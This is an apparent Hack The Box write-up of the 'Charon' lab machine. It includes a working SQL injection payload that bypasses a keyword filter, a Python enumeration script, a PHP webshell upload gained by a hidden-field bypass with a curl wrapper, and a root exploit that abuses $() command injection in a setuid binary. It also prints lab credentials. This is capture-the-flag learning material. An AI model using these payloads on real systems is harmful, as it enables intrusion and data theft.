



# initial enumeration

nmap scan:


| port | service | version | 
|-----|---------|----------|
| 22 | ssh|7.2p2|
| 80 | apache httpd| 2.4.18| 

feroxbuster scan
```
301      GET        9l       28w      307c http://10.129.1.66/js => http://10.129.1.66/js/
200      GET       94l      191w     2546c http://10.129.1.66/
301      GET        9l       28w      311c http://10.129.1.66/images => http://10.129.1.66/images/
301      GET        9l       28w      308c http://10.129.1.66/css => http://10.129.1.66/css/
301      GET        9l       28w      318c http://10.129.1.66/images/mobile => http://10.129.1.66/images/mobile/
301      GET        9l       28w      310c http://10.129.1.66/fonts => http://10.129.1.66/fonts/
301      GET        9l       28w      312c http://10.129.1.66/include => http://10.129.1.66/include/
403      GET       11l       32w      299c http://10.129.1.66/server-status

```
``


home page


looking up the cms on google i found a [repo](https://github.com/rojr/SuperCMS), last updated 4 years ago


well i cant access anything and the webpage seems empty so i'll run a vhost scan
dead end

ran a dirscan again, this time with a .php extension and found a folder called `cmsdata` and a `/menu.php` which redirected me to a login page


# Foothold
after trying to fuzz some creds i checked the forgot password link and there i found the following error


## Sql Injection


running sqlmap found a vulnerable mysql database and gave me a database:
`supercms`

sqlmap didn't work other than giving me the db name 

trying a union injection just throws an error: 


weird
what if it's blocking the word union? or filtering it somehow? 
YUP

changing the union to anything different, like "uNion" bypasses the filter

enumerating how many rows the db has by executing the request multiple times with different numbers resulted in 4 rows, after the query returned an "Incorrect format" error 


after trying to see which row is the injectable one, i found that the 4th one is the injectable one.
so time to enumerate the db:
im gonna concat the information schema tables into this row to get the data from it into one row

well since it wants an email, lets add one to our concat statement:



hmm.... an error...
maybe its filtering that as well

yep


it says that there isn't a username found with that email, probably because it's probably returning an error, so lets limit the result to see if it helps:

yep




lets continue enumerating this db

db info:


if i give the limit statement an offset, i could probably get the column names


yup. i'll write a script to automate this


interesting columns


__enum_db.py__
```python
import requests
import re


i = 0
reg = r"<h2> Email sent to: (.+?) "
query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}

url = "http://charon.htb/cmsdata/forgot.php"
while i < 1001:
        r = requests.post(url, data=query)
        reg_query = re.search(reg, r.text)
        query = {"email": f"aaa@aaa.com'uniOn select 1,2,3,CONCAT( COLUMN_NAME,  \" | \",\" | \",  \"@aaa.com\") FROM INFORmATION_SCHEMA.COLUMNS limit 1 offset {i};-- -"}
        print(reg_query.group(1) + f" | INDEX: {i}")
        i += 1

```

using the script above and the database tables we found, we can enumerate usernames:


managed to leak a hash!
0b0689ba94f94533400f4decd87fa260

using https://md5decrypt.net/en/#answer
 i decrypted the hash and got:
 0b0689ba94f94533400f4decd87fa260 : **tamarro**

i managed to log in with the creds:

**super_cms_adm:tamarro**


we can edit this page??
any webshell addicts in chat? 

well i cant write to the files in any way
however, i can upload files


we can only upload .jpg, .gif and .png

looking at the source i see a weird hidden input variable. 

that decodes to: *testfile1*

uncommenting the input generates a new input form... with the encoded value. 

changing that encoded value to the decoded value and uncommenting it allows me to just upload any image file under any name i want! meaning i can save an image with a php webshell in it and upload it as a webshell! lets try:


it uploaded to the images folder.. lets try to execute code with it


## Command Execution


wrote a very basic automation script to simulate a shell:

```bash
curl http://charon.htb/images/shell.php?cmd=$1 -s --output - 
```

user found: decoder

# User flag

enumerating some stuff i found db creds in the `freeeze` folder:


**freeeze:fr2424z**


```
1 -word filter
sqli - the vulnerable query
```

 i can read the `pass.crypt` and `decoder.pub` files in decoder's home directory, but not the user file
 
pass.crypt: mTJPrVNiiaHi0Y3QImXNfxVXnWecid0ZVMjFbzeNEUk=

running RsaCtfTool on the decoder.pub and pass.crypt files gives me a password: **nevermindthebollocks**

**decoder:nevermindthebollocks**

using the creds i can ssh as decoder and get the user flag

# Root flag


linpeas showed me that there is a readable binary called `supershell` which doesn't seem to be a default binary.. could this be a privesc vector?


rafter copying the binary to my local system i opened it in ida and read the main function:


it appears that the binary takes our string, checks that there aren't any command injection strings and compares it to `/bin/ls`, then executes it with root privileges by setting it's uid to **0** . notice that the strings its filtering () are missing one string that can be used for command injection; `$()`.
lets try to exploit this


payload: `supershell '/bin/ls $(cat /root/root.txt)'`

it worked! 


## Closing notes
ty to [decoder](https://app.hackthebox.com/users/1391) , the creator of the box for a fun and interesting box
